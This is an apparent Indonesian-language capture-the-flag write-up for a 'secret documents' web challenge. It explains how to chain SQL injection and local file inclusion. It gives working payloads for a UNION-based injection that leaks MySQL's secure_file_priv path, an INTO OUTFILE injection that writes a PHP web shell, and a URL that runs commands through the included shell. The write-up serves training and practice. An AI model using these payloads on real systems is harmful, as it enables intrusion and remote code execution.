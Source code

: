 ## Judul Soal
Dokumen Rahasia

## Deskripsi Soal
Saya sedang membuat aplikasi untuk menyimpan dokumen rahasia, coba tolong dicek keamanannya :) <br>

---

## Penjelasan Penyelesaian Soal
- Terdapat 2 vuln, yaitu SQLi dan LFI
- Untuk LFI, hanya bsa membaca file berekstensi .secret
- Tidak ada shell yang disediakan, peserta harus membuat shell sendiri
- Membuat shell menggunakan SQLi into outfile (dari login/register bebas lah)
- Sayangnya terdapat constraint `secure file priv` dari MySQL nya, jadi gk bsa sembarang create file
- Jadi harus cek dulu folder yang dibolehin pakai query (select @@global.secure_file_priv)
- Contoh payload: `' and 0 union select 1, @@global.secure_file_priv, '$2a$10$ogP8GlfK7F0BGTSe/ocS5eOVPU2zmVbgZQnVA5N64v6.OnT8wnPhy' -- -` (itu ada bcrypt karena verif passnya pke bcrypt) 
- Nanti bakal ketahuan folder yang bisa di-write itu `/tmp/heheboi`
- Yudh bikin shellnya pakai SQLi, misal filenya `shell.secret`
- Contoh payloadnya: `' and 0 union select '<?php system($_GET["c"]); ?>', 2, 3 into outfile '/tmp/heheboi/shell.secret' -- -`
- Setelah itu login dan akses lewat secret.php
- Contoh: `http://localhost:10003/secret.php?name=/tmp/heheboi/shell&c=cat%20/fl4g_adalah_sebuah_bendera`
- Done